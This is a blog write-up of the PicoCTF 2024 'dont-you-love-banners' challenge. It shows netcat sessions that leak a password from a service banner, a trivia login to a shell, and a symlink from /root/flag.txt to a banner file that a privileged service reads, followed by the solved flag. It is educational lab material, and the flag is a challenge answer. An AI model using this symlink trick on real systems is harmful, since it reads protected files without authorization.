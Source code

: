 ```yaml
---
title: "Pico CTF 24 - dont-you-love-banners"
date: 2024-03-26T16:00:00-05:00
draft: false
tags: ['ctf','pico','general']
summary: "Abusing symlinks to include and subsequently display banners."
---
```


## Introduction

dont-you-love-banners was a challenge in PicoCTF 2024. The challenge was classified as General Skills, and was quit straightforward, despite having quite a bit of chatter in the PicoCTF Discord.

The description tells us that there is a server leaking "crucial information" on one port, and then a an application running on another port on the same machine. IT also lets us know that the flag is in `/root`. We're given two hints here, one advises a small amount of password cracking or guessing, and the other asks about symlink.

## Solving

### The Leaky Machine

So we're going to start by exploring the leaked information from the initial server by netcatting that host and port. While the challenge does not specify this directly, given that we've got some prerequisite information about banners, I figured this would be a good starting point. And I was very correct, this is serving a banner with a password in it.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 58837
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

### The Exploit

So now we have a password, we can see what it goes to.
We're going to step through a bit of question and answer, and the results were fairly trivial to google.

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ ls
ls
banner  text
```

Now we have a shell. I started by catting out banner and text, to see where I'm at and what I'm dealing with.

```plaintext
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
keep digging
```

We can see that the banner we saw when netcatting onto the machine is in a text document. This will become important later!

For now, let's go visit the flag and see if we can cat it out.

```plaintext
player@challenge:~$ cd /root
player@challenge:/root$ ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat: flag.txt: Permission denied
```

Not quite that easy. However, our hints do give us a good launching point, which is that a symlink might be the key here. We can try to symlink the flag to take the place of the banner, and see if it's being read by something with a higher privilege level.

```bash
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
ln: failed to create symbolic link '/home/player/banner': File exists
player@challenge:/root$ rm ~/banner
rm ~/banner
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:/root$ cd ~
player@challenge:~$ cat banner
cat: banner: Permission denied
```

We still can't cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

```plaintext
┌──(rem λ redmint)-[~]
└─$ nc tethys.picoctf.net 63259
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}

what is the password? 
```

Flag obtained. I didn't spend too much time looking into this challenge, but I believe the initial interaction on port 63259 was through a Python application which dropped us into a shell. The Python application was reading the contents of `banner` from the home directory of that user. As such, it can be assumed that the Python program had elevated privileges to read the file we symlinked. So even though **we** couldn't read it, the Python application dropping us into the shell could, and reconnecting just spit it back out at us.

## Summary

Fairly easy challenge, but worth a large sum of points. A good exercise in symlinks and understanding privileges associated with files in Linux. I believe this was one of the first challenges I solved in Pico 2024, and I'm quite glad I went down the road I did right away, as I can see a world where people were scratching their heads looking for privesc or a more stable shell given the first hint of light password cracking.

